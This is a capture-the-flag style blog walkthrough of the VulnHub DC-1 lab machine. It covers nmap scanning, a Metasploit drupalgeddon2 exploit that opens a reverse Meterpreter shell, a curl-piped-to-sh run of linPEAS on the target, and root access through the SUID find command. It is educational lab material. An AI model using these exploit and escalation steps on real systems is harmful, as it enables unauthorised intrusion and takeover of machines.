






## Hacking? But...

### Why?

So you might be wondering... Why would you event want to learn *hacking*? What does that even mean? Isn't that illegal? 

Well...
Someone wise said:
> With great power comes great responsibility.

And someone else said:
> If you perform an illegal action, you can go to jail.

So that's why we will be performing penetration testing **only** in educational purposes, and we will not intrude anyone's cyber space.

But why *should* we do it?

All computers (at least the ones with the internet access) are connected. Whether you like it or not, your iPhone or PC is a part of giant web.
You want to interact with other computers - that's what internet is for! But you certainly don't want someone else interacting with your computer in an unsupervised way and with ill intentions.

That's why we should... Learn how to hack!
Learning penetration testing skills is a great way of obtaining skills necessary to defend yourself. 

So that's one of answers to the question *why*.
The other one, that is applicable to myself is pretty trivial - I have to. I have obligatory cybersecurity course on my engineering degree program at Uni. 

So I guess this is it `¯\_(ツ)_/¯`


### What?
In this episode of my *computer science journey* I will be hacking this machine: [DC1 on vulnhub](https://www.vulnhub.com/entry/dc-1,292/)

They say it's for beginners, so it shouldn't be a problem.
> It was designed to be a challenge for beginners, but just how easy it is will depend on your skills and knowledge, and your ability to learn.

It seems like a good start for a freshly baked tech blog 🤓

Before we dive into hacking - I encourage **you** to try cracking this machine by yourself!

### How?
Let's get started!

#### Scanning
First of all, we will perform some basic scanning. The most common tool, that can also be found on many linux distros (indlucing *Kali* - which we will use), is **nmap**
It's syntax is pretty simple:
``` bash
nmap -A 192.168.1.21
```

*-A* flag is used for obtaining more specific information about the system:
``` bash
-A: Enable OS detection, version detection, script scanning, and traceroute
```
Result of the command:


We will focus on port *80* - this is the standard port for hosting HTTP web servers. 
We can see 
- some files and routes
```
/includes/ /misc/ /modules/ /profiles/ /scripts/
/themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
/INSTALL.pgsql.txt /INSTALL.sqlite.txt
```
- the title of the website
```
Welcome to Drupal Site | Drupal Site
```
- web server name with version, and linux distribution
```
Apache/2.2.22 (Debian)
```
- PHP framework with version
```
Drupal 7
```

That's a lot of information!
We can also enter the website, to see if there is anything interesting.


I didn't find anything useful here, so let's move on.

#### Exploitation
We all know that *PHP* websites are... leaky? They have more security holes than JS has bad designs... So that's a lot.

To found out if our service is vulnerable, we will use *metasploit* framework. If you don't know what it is - check out their [website](https://www.metasploit.com).

We use `search` command to list all classified exploits:
``` bash
msf6 > search drupal 7
```
Again, we receive a lot of information:


These are the exploits that can be valid for *Drupal 7*. Let's enumerate over them and check if one of them works.

**drupal_coder_exec**
``` bash
msf6 > use 0
msf6 exploit(unix/webapp/drupal_coder_exec) > set RHOSTS 192.168.1.21
msf6 exploit(unix/webapp/drupal_coder_exec) > check

[*] 192.168.1.21:80 - The target is not exploitable.
```

So the first one is not available. Okay, let's check the next one.

**drupalgeddon2**
``` bash
msf6 > use 1
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOSTS 192.168.1.21
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > check

[*] 192.168.1.21:80 - The service is running, but could not be validated.


msf6 exploit(unix/webapp/drupal_drupalgeddon2) > exploit

[*] Started reverse TCP handler on 192.168.1.20:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Sending stage (39927 bytes) to 192.168.1.21
[*] Meterpreter session 1 opened (192.168.1.20:4444 → 192.168.1.21:35763) at 2024-08-08 05:23:14 -0700

meterpreter >
```

It seems that we got in! We are now inside metasploit shell, that has some great utilities (like dropping exploits directly into the machine).
We can use *sysinfo* command:

``` bash
meterpreter > sysinfo

Computer    : DC-1
OS          : Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686
Meterpreter : php/linux
```

We can create our own shell by using command:
```bash
meterpreter > shell
```

```bash
echo "hello!"
hello!

whoami
www-data
```

#### Privilege escalation

Step one is complete - we have gained access to the machine. The second step is privilege escalation. The goal for this machine is to gain root access.

To achieve this, we will use the [linPEASS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) tool - a script that collects all information about the system and works similarly to scripts in nmap. LinPEASS is awesome, it gives you few screens of information, including potential CVEs!
The following command downloads the script and runs it immediately - this is very convenient because we don't have to transfer files to the target machine, reducing our footprint.
``` bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```



We are mostly interested in orange / red colored entries.

After some scrolling, we find this:


It's under **SUID** section. What does that mean?
Let's look closely to the */find* record:
``` bash
-rwsr-xr-x 1 root root 159K Jan 6 2012 /usr/bin/find
```

Notice the first part:
``` bash
-rwsr-xr-x
```
The fourth character is **s**, and it's in the place of execution bit for owner. This is what SUID means - no matter which user runs this command, it will run with **root** privilages. Awesome!

You can find more about SUID in [this great article](https://securiumsolutions.com/privilege-escalation-with-suid-in-linux/)

But before we go any further into exploiting this fact, let's use the *find* command!

``` bash
find /**/*flag*

/home/flag4
/home/flag4/.bash_logout
/home/flag4/-profile
/home/flag4/flag4.txt
/home/flag4/.bash_history
/home/flag4/.bashrc
/proc/kpageflags
```

Let's peek into **flag4.txt** file:
``` bash
cat /home/flag4/flag4.txt

Can you use this same method to find or access the flag in root?

Probably. But perhaps it's not that easy. Or maybe it is?
```

This tells us that we are on a good track. Can we peek into */root* folder?

``` bash
ls -la /root

ls: cannot open directory /root: Permission denied
```

Just as expected. Let's go back to escalating privileges.

#### Find!
This awesome command is quite powerful. *Find* can perform some operations for each record it *finds*. To use this, include *-exec* flag, like in the example:
``` bash
find /**/*flag* -exec echo "filename: {}" \;

filename: /home/flag4
filename: /home/flag4/.bash_logout
filename: /home/flag4/.profile
filename: /home/flag4/flag4.txt
filename: /home/flag4/.bash_history
filename: /home/flag4/.bashrc
filename: /proc/kpageflags
```
Here, we just formatted the text using *echo* command.
What is interesting here, is that *find* spawns new process for each execution of specified command. Such process inherits *find's* privileges. 

So it would mean that... Each *echo* process was run with **root** privileges!

We will combine this with *-quit* flag - find will stop iterating after first command that returned something other than error.

``` bash
find /**/*flag* -exec echo "filename: {}" \; -quit

filename: /home/flag4

```

As you can see, now it only printed one entry.

Cool, so what is the big magic spell? Get ready for it!

Drumrolls please! 🥁
``` bash
find . -exec /bin/sh \; -quit
```
That's it! We use *find* on our current directory, we quit after first command runs with success, and we start new **sh** process!
After running this command we gain access to new shell, with root privileges!

``` bash
# before the exploit

whoami
www-data

# THE exploit

find . -exec /bin/sh \; -quit

# after the explot, we are in a new shell

whoami 
root
```

Now let's look into that precious */root* folder!
``` bash
ls -la /root

total 32
drwx------  4 root root 4096 Feb 28  2019 .
drwxr-xr-x 23 root root 4096 Feb 19  2019 ..
drwx------  2 root root 4096 Feb 19  2019 .aptitude
-rw-------  1 root root   44 Feb 28  2019 .bash_history
-rw-r--r--  1 root root  949 Feb 19  2019 .bashrc
drwxr-xr-x  3 root root 4096 Feb 19  2019 .drush
-rw-r--r--  1 root root  140 Nov 20  2007 .profile
-rw-r--r--  1 root root  173 Feb 19  2019 thefinalflag.txt
```

Oh, what's that? **The final flag dot txt**?

``` bash
cat /root/thefinalflag.txt

Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
```

Yup! That's the thing we were supposed to **find**!

#### Ending word
Although this wasn't the hardest machine, I've actually really enjoyed cracking it!
I didn't use any solution, just tools available on kali linux and google!

And did **you** enjoy this article? If so, let me know! Share this article or reach out to me (on [github](https://github.com/RafalKornel) or [linkedin](https://www.linkedin.com/in/rafal-kornel/))!


